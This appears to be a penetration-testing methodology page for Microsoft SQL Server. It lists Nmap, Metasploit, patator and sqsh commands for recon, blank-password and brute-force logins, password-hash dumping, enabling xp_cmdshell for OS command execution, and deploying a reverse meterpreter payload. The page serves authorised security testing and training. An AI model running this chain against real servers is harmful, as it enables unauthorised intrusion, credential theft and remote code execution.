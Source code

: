 # MSSQL - Methodology

### Service recon

The Nmap *ms-sql-info.nse* script attempts to determine configuration and
version information for Microsoft SQL Server.  
The script will first gather information by querying the SQL Server Browser
service (that runs by default on UDP port 1434 and provides imprecise
version information) and then sending a probe to the instance to conduct
response packet analysis.

```
nmap --script ms-sql-info --script-args mssql.instance-port=1433 -p 1433 <TARGET>
```

The Metasploit mssql_ping module attempts to retrieve similar information:

```
msf > use auxiliary/scanner/mssql/mssql_ping
```

### Empty password

Whenever targeting a large number of MSSQL services, the
nmap nse script *ms-sql-empty-password.nse* can be used to quickly try to
connect using the sa account and a blank password:

```
nmap -v -sT -p 1433 --script=ms-sql-empty-password.nse <HOSTS>
```

### Authentication brute force

The metasploit auxiliary/scanner/mssql/mssql_login module can be used to brute
force credentials for the service. The BLANK_PASSWORDS option is worth setting
to true.  

The patator tool can be used as well to brute force credentials on the service:

```
patator mssql_login host=<IP> user=FILE0 password=FILE1 0=<WORDLIST_USER> 1=<WORDLIST_PASSWORD> -x ignore:fgrep='Login failed for user'
```

### Query the database

The sqsh CLI tool can be used to make queries to the database:

```
sqsh -U <USERNAME> -P <PASSWORD> -S <IP>:<PORT>
```

The **DBeaver** GUI tool can be used to simply access the database content without
knowing the proper MSSQL syntax.

### Dump hashes

If provided with an user credentials of appropriate DB privileges, the nmap
nse script *ms-sql-dump-hashes.nse* can be used to dump the password hashes
from an MS-SQL server in a format suitable for cracking by tools such as
John-the-ripper.

```
nmap -v -sT -p <PORT> --script=ms-sql-dump-hashes.nse --script-args='mssql.username=<USERNAME>,mssql.password=<PASSWORD>' <IP>
```

### OS commands execution

On MSSQL server, operating system commands can be executed using the
*xp_cmdshell* function.  
The *xp_cmdshell* function is deactivated by default from SQL Server 2000 and
upwards and needs to be activated.  
The following query can be used to activate it given the
account used has sufficient privilege (sysadmin):

```SQL
-- To allow advanced options to be changed.  
EXEC sp_configure 'show advanced options', 1;  
go  
-- To update the currently configured value for advanced options.  
RECONFIGURE;  
go  
-- To enable the feature.  
EXEC sp_configure 'xp_cmdshell', 1;  
go
-- To update the currently configured value for this feature.  
RECONFIGURE;  
go  
```

Operating system CMD commands can then be executed:

```SQL
EXEC xp_cmdshell '<CMD>'
go  
```

The Metasploit module *exploit/windows/mssql/mssql_payload* automates the tasks
above to deploy a payload, such as a reverse meterpreter, on the server.
